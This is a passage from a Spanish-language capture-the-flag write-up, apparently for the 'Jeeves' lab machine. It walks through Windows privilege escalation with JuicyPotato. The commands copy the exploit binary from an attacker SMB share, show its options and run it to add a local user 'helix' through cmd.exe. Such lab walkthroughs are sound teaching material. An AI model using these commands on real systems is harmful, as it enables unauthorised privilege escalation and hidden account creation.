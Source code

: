     ```bash
    $cd C:\Windows\Temp
    $mkdir privesc
    ```
    
    ```bash
    $copy \\10.10.14.17\carpetaCompartida\JuicyPotato.exe potato.exe
    ```
    
- Opciones del ejecutable:
    
    ```bash
    potato.exe -h
    JuicyPotato v0.1 
    
    Mandatory args: 
    -t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
    -p <program>: program to launch
    -l <port>: COM server listen port
    
    Optional args: 
    -m <ip>: COM server listen address (default 127.0.0.1)
    -a <argument>: command line argument to pass to program (default NULL)
    -k <ip>: RPC server ip address (default 127.0.0.1)
    -n <port>: RPC server listen port (default 135)
    -c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
    -z only test CLSID and print token's user
    ```
    
    ```bash
    $potato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user helix helix123#$ /add" -l 9999
    ```
    
    ```bash
    -t 
    -p -> va a ejecutar una cmd para poder ejecutar comandos
    -a -> argumentos que le vamos a pasar al proceso anterior { cmd }
    
    // Entre las " " \\
    /c -> comando que se va a ejecutar { cmd argument } 
    --> Crear un usuario "helix" con la password "helix123#$"
    		--> Es importante dar a la password un pequeño nivel de complejidad
    				porque puede ser motivo de fallo.
    ```
    
    ![Untitled](https://github.com/Hexix23/WriteUps/blob/main/.gitbook/assets/Jeeves/Untitled%2030.png)
    
- Como vemos hemos creado el usuario `helix` en el sistema.
    